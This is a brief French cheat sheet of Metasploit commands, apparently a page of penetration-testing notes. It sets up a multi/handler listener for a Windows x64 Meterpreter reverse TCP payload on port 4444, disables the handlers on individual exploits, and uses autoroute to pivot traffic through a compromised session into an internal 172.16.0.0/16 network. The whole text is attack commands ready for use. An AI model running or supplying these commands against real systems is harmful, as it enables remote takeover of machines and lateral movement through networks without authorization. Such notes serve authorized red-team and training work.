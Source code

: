 <h3>Set un handler</h3>
use exploit/multi/handler</br>
set PAYLOAD windows/x64/meterpreter/reverse_tcp</br>
set LHOST 0.0.0.0</br>
set LPORT 4444</br>
set ExitOnSession false</br>
exploit -j -z</br>

Ne pas oublier d'enlever les handlers des exploits:</br>
set disablepayloadhandler true</br>

<h3>Pivoter</h3>
<i>run autoroute -s 172.16.0.0/16</i> → Route le trafic à travers la session ouverte</br>

